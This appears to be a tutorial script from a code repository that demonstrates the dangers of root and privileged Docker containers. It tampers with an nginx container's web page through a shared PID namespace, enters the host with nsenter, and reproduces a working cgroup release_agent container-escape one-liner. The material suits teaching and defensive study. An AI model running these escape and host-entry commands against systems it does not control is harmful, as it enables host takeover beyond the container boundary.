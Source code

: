 # Example 5 - Root user 
Demonstrate root user inside the container. 

## Script to follow
Demonstrate root user

Build the image
```sh
docker build --no-cache -t scratchtest .
```

Run as non-privileged 
```sh
docker run -it --rm --entrypoint "/bin/bash" scratchtest
whoami
exit
```

Run as privileged
```sh
docker run -it --rm --privileged --entrypoint "/bin/bash" scratchtest
whoami
exit
```

Start an nginx container
```sh
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/
docker run -it --rm --privileged --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" scratchtest

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

Changing and reloading config
```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Get onto the docker desktop host
```sh
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

## Escape the container
This will only work on Linux.  It doesn't work on Docker for Desktop.

[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  
```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```